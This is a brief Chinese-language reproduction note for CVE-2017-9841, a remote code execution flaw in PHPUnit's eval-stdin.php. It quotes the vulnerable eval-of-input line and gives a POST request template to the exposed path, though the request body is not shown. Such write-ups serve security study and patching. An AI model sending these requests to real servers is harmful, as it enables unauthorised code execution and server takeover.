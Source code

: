 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

```
PHPUnit < 5.6.3
```

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```plain
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```plain
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](./images/202202091319138.png)